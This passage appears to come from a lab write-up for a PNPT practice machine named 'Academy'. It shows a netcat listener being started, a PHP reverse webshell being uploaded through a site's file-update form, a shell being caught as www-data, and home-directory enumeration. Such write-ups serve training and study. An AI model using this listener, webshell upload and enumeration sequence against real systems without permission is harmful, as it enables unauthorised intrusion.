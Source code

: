 Once I save the file, I start the netcat listener on port 1234.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234          
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
~~~

Then I select the file "shell.php" and click the update button.
![Image](/assets/img/WriteUp/PNPT/Academy/9.png){: width="700" height="400" }

Once the file is uploaded and the page is reshed, the reverse PHP webshell is loaded.
So time to look at netcat again.

~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 1234          
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.138.5.
Ncat: Connection from 192.168.138.5:35002.
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 05:40:06 up  2:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

~~~
A connetion is established and I noticed that I am the user "www-data". One of the commands I use during my post exploitation is **ls /home -ahlR** to see all files and folders in the home directory.
~~~
$ ls /home -ahlR
/home:
total 12K
drwxr-xr-x  3 root    root          4.0K May 30  2021 .
drwxr-xr-x 18 root    root          4.0K May 29  2021 ..
drwxr-xr-x  3 grimmie administrator 4.0K May 30  2021 grimmie

/home/grimmie:
total 32K
drwxr-xr-x 3 grimmie administrator 4.0K May 30  2021 .
drwxr-xr-x 3 root    root          4.0K May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
~~~